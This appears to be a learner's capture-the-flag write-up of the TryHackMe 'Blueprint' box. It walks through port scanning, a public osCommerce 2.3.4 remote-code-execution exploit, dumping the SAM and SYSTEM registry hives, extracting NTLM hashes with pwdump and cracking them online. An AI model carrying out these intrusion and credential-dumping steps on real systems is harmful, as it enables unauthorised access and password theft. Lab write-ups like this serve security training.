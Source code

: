 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on the Intrusion Kill Chain by Lockheed Martin:
	Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve
---
### Environment
#### Operating System
latest kali-VM
#### Tools
N/A

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted
 root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
  PORT      STATE    SERVICE
  80/tcp    open     http
  135/tcp   open     msrpc
  139/tcp   open     netbios-ssn
  443/tcp   open     https
  445/tcp   open     microsoft-ds
  512/tcp   filtered exec
  1152/tcp  filtered winpoplanmess
  1875/tcp  filtered westell-stats
  3306/tcp  open     mysql
  4662/tcp  filtered edonkey
  7741/tcp  filtered scriptview
  8080/tcp  open     http-proxy
  9010/tcp  filtered sdr
  20005/tcp filtered btx
  26214/tcp filtered unknown
  27000/tcp filtered flexlm0
  49152/tcp open     unknown
  49153/tcp open     unknown
  49154/tcp open     unknown
  49158/tcp open     unknown
  49159/tcp open     unknown
  49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
	http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system

DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
<missing command> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Cracktation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared myself the system resources and was able to instantly receive the cleartext password.
---
### After action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped my connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you.
#### What I would've dine differenttly
Given that this was my first box, I was a bit messy with what I was actually doing on the Target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.

